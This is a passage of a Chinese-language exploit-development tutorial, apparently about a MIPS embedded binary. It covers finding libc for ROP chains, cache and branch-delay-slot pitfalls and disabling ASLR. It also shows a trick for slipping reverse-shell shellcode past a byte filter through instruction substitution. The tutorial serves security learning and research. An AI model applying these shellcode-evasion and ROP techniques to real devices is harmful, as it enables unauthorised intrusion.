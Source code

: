 ```
0x7ffd6000 0x7fff7000 0x00000000 rwx [stack]
0x7fff7000 0x7fff8000 0x00000000 r-x [vdso]
```

在 gdb 调试器中找到libc的基地址，这里主要使用libc.so库来查找rop。
<li>关于 ROP 链的构造参考H4lo之前在安全客上发表过的这篇文章：[https://www.anquanke.com/post/id/179510](https://www.anquanke.com/post/id/179510)
</li>
总结起来就是一张图：

[![](https://p1.ssl.qhimg.com/dm/850_1024_/t01b679f241eae3fc4e.png)](https://p1.ssl.qhimg.com/dm/850_1024_/t01b679f241eae3fc4e.png)

[![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvndicPIZpaQmz6lkbaLJmviaTibTLmicOLasHcTgclX0VKj9hsVX4icFKglazrWIiaUv0XSH80ibEsibuaiayLA/640?wx_fmt=png)](https://p1.ssl.qhimg.com/t0169c4f9609b69534c.png)

注意点：
1. 因为cache机制，写进缓冲区的数据会先放到不会立刻存放到栈上，一般解决方案就是如上图调用一个sleep函数。
1. branch delay slot机制使得汇编程序并非一条直线运行下去.
下面汇编语句中的li $a0, 3实际上也会执行

```
LOAD:0000E204                 move    $t9, $s1
LOAD:0000E208                 jalr    $t9 ; sysconf
LOAD:0000E20C                 li      $a0, 3
```

模拟器内核可能开启了ALSR，方便演示先关闭保护机制：

```
sudo sh -c "echo '0' &gt; /proc/sys/kernel/randomize_va_space"
```

### shellcode 查找/构造

贴出两个查找shellcode网站

[http://shell-storm.org/shellcode/files/shellcode-794.php](http://shell-storm.org/shellcode/files/shellcode-794.php)<br>[https://www.exploit-db.com/exploits/45541](https://www.exploit-db.com/exploits/45541)

直接使用现成的反弹 shell 的 shellcode 发现行不通，原因是程序中对数据有过滤，需要对shellcode修改。
- 对 shellcode 的修改方法主要有两种：
1、同指令替换。<br>
2、进行简单编码。

这里采用指令替换的方法，针对于 lui 指令的字节码为 0x3c（/）的情况下，使用一些无关指令，如填充ori t3,t3,0xff3c指令时，3c 会被编码成 5c3c，那么这时候3c就逃逸到下一个内存空间中，这个 3c 就可以继续使用了（针对于开头为 3c 的汇编指令）。

过程总结如下：

```
1. 选择一个无用的寄存器 t3，填充 ori $t3, $t3, 0xff3c。对应的汇编字节码为 "\x35\x6b\xff\x3c"
2. 结尾的 \x3c (&lt;)会转义为 \x5c\x3c ，\x3c 就会逃逸到下一个内存空间中
3. 在下一个内存空间中，如果我们需要填充 "\ x3c \ x0f \ x2f \ x2f" //lui $ t7, 0x2f2f  这个语句的话，只需填充 \ x0f \ x2f \ x2f 即可，这样我们就达到了类似指令替换的目的
4. 对于其他被转义的字符也可以类似的操作。
```
- 对指令进行反汇编时，可以借助 pwntools 的 disasm 模块
```
from pwn import *

disasm("\x01\xe0\x20\x27",arch="mips",endian="big",bytes=32)
```
